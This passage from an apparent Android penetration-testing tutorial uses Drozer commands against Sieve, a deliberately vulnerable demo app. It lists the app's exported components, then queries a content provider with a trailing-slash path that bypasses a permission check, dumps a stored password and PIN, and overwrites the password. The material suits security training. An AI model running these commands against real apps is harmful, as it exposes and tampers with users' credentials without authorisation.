 ```
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

##### Content Providers


The "Sieve" application implements a vulnerable content provider. To list the content providers exported by the Sieve app, execute the following command:

```
dz> run app.provider.finduri com.mwr.example.sieve
Scanning com.mwr.example.sieve...
content://com.mwr.example.sieve.DBContentProvider/
content://com.mwr.example.sieve.FileBackupProvider/
content://com.mwr.example.sieve.DBContentProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords/
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.FileBackupProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Keys
```

Content providers with names like "Passwords" and "Keys" are prime suspects for sensitive information leaks. After all, it wouldn't be good if sensitive keys and passwords could simply be queried from the provider!

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys
Permission Denial: reading com.mwr.example.sieve.DBContentProvider uri content://com.mwr.example.sieve.DBContentProvider/Keys from pid=4268, uid=10054 requires com.mwr.example.sieve.READ_KEYS, or grantUriPermission()
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password          | pin  |
| SuperPassword1234 | 1234 |
```

This content provider can be accessed without permission.

```
dz> run app.provider.update content://com.mwr.example.sieve.DBContentProvider/Keys/ --selection "pin=1234" --string  Password "newpassword"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password    | pin  |
| newpassword | 1234 |
```

##### Activities
